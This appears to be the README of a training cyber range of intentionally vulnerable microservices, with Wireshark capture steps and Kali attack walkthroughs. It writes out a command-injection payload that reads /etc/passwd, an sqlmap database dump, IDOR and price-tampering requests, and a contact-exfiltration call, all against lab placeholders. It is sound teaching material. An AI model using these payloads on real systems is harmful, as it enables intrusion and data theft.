

# 📖 Dadiwoo Cyber Range Platform - Complete User, Wireshark & Kali Linux Penetration Testing Guide

Welcome to the **Dadiwoo Cyber Range Microservices Platform**. This guide covers system startup, Manager Dashboard navigation, Wireshark packet capture analysis, and Kali Linux penetration testing workflows.

---

## 📸 Manager Dashboard Visual Interface

The redesigned Manager Dashboard displays microservice cards with:
- **Header**: `🛡 Dadiwoo Central Cyber Range Control Plane`.
- **Search Bar**: Search by keyword or tag (`osint`, `wifi`, `sqli`, `idor`, `command-injection`, `financial`, `retail`, `bluetooth`).
- **Simultaneous Action Buttons**: Dedicated `▶ Start` and `⏹ Stop` controls on each card.
- **Settings Modal (`⚙️ Settings`)**: Popup for configuring Environment Purpose (`cybersecurity` vs `networking`), Local Domain, Port, and Difficulty Level.
- **Pagination**: 20 microservice cards per page.



---

## 🦈 1. Capturing Traffic with Wireshark

When testing or attacking any microservice, you can use **Wireshark** to capture HTTP/DNS packets and analyze network traffic in real time.

### How to Capture Microservice Traffic in Wireshark:
1. Open Wireshark on your host machine or Ubuntu VM:
   ```bash
   sudo wireshark
   ```
2. Select the interface bound to your range network (e.g. `lo` for localhost testing, or `eth0` / `docker0` / `vbr0` for GNS3/EVE-NG bridges).
3. Apply a Wireshark Display Filter to focus on microservice traffic:
   - **Filter HTTP Traffic on Lab Ports**:
     ```text
     http && (tcp.port == 8080 || tcp.port == 8081 || tcp.port == 8082 || tcp.port == 8083 || tcp.port == 8084 || tcp.port == 8085)
     ```
   - **Filter Mini DNS Traffic**:
     ```text
     dns && udp.port == 5353
     ```
4. **What You Will See in Wireshark**:
   - **Unencrypted HTTP Packets**: See POST form parameters (`card_number`, `pin`, `username`, `password`, `amount`, `attacker_mac`).
   - **Header Inspection**: Observe cookie session headers (`session_account=ACC-1001`) and HTTP 503 response codes when in General Networking Mode.
   - **DNS Queries**: Watch UDP queries resolving `atm.lab`, `bank.lab`, `isp.lab`, `school.lab`, `shop.lab`, `mobile.lab` to `<HOST_IP>`.

---

## 🐉 2. Attacking Microservices with Kali Linux Tools

You can attack the microservices from a Kali Linux VM or Kali container on your lab network.

### A. Reconnaissance & Port Scanning (Nmap)
Map all microservice ports on your Cyber Range host:
```bash
nmap -p 8080-8085,9000,5353 -sV <UBUNTU_VM_IP>
```

### B. Bluetooth & Mobile Exfiltration - Mobile Lab (`:8085`)
Simulate Bluetooth pairing or exfiltrate phonebook contacts:
```bash
# Pair with default pin '0000'
curl -X POST http://<UBUNTU_VM_IP>:8085/bluetooth/pair \
     -d "attacker_mac=00:11:22:33:44:55&pin=0000"

# Unauthenticated contact exfiltration API
curl -s http://<UBUNTU_VM_IP>:8085/api/v1/bluetooth/exfiltrate
```

### C. SQL Injection Testing (sqlmap) - Online Banking (`:8081`)
Exploit search parameter SQLi on the Banking Portal:
```bash
sqlmap -u "http://<UBUNTU_VM_IP>:8081/?q=Allowance" --cookie="session_user=user1" --batch --dbs
```

### D. Parameter Injection / Command Execution - ISP Portal (`:8082`)
Test diagnostic tool command injection using `curl` or Burp Suite:
```bash
curl -X POST http://<UBUNTU_VM_IP>:8082/diagnostics \
     -d "host=127.0.0.1; id; cat /etc/passwd"
```

### E. IDOR & Logic Flaw Testing - ATM (`:8080`) & Shop (`:8084`)
Exploit Insecure Direct Object References:
```bash
# Fetch admin details and CTF flag from ATM API
curl -s http://<UBUNTU_VM_IP>:8080/api/v1/accounts/ACC-9000

# Client-side price tampering on E-Commerce Store
curl -X POST http://<UBUNTU_VM_IP>:8084/checkout \
     -d "product_id=1&price=0.01&coupon=DISCOUNT20"
```

---

## 🚀 Microservices Quickstart Summary

```bash
chmod +x start_labs.sh
./start_labs.sh
```

- **🛡 Dadiwoo Manager Control Plane**: `http://<YOUR_HOST_IP>:9000`
- **🏧 Dadiwoo ATM Simulator**: `http://<YOUR_HOST_IP>:8080`
- **🏦 Dadiwoo Online Banking**: `http://<YOUR_HOST_IP>:8081`
- **🌐 Dadiwoo ISP Portal**: `http://<YOUR_HOST_IP>:8082`
- **🎓 Dadiwoo Student Portal**: `http://<YOUR_HOST_IP>:8083`
- **🛒 Dadiwoo E-Commerce Store**: `http://<YOUR_HOST_IP>:8084`
- **📱 Dadiwoo Smartphone Lab**: `http://<YOUR_HOST_IP>:8085`
